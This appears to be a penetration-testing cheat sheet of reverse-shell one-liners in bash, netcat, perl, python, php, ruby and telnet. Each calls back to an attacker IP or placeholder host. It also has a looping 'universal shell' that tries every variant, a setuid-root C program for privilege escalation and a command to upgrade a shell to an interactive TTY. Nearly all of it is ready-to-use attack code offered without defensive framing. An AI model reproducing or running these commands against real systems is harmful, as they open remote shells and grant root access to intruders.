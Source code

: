 ## Universal shell (change IP to yours):
    while true;do bash -i >& /dev/tcp/IP/1337 0>&1;nc -e /bin/sh IP 1337;perl -e 'use Socket;$i="IP";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';php -r '$sock=fsockopen("IP",1337);exec("/bin/sh -i <&3 >&3 2>&3");';ruby -rsocket -e'f=TCPSocket.open("IP",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)';sleep 5;done

## Priv escalation
### Reverse shell
		bash -i >& /dev/tcp/10.1.1.246/443 0>&1
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.114.137 443 >/tmp/f
	Add SSH keys: ssh-keygen -t rsa -b 2048
	root.c:
	#include <stdlib.h>
	#include <unistd.h>

	int main() {
		setuid(0);
		setgid(0);
	system("/bin/bash");
	}

#### bash
    bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

#### sh
    rm -f /tmp/p; mknod /tmp/p p && nc <attacker-ip> 4444 0/tmp/p

#### telnet
    rm -f /tmp/p; mknod /tmp/p p && telnet <attacker-ip> 80 0/tmp/p

#### python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### perl 
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#### Upgrade reverse shell non-interactive to interactive
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Sevices examination:
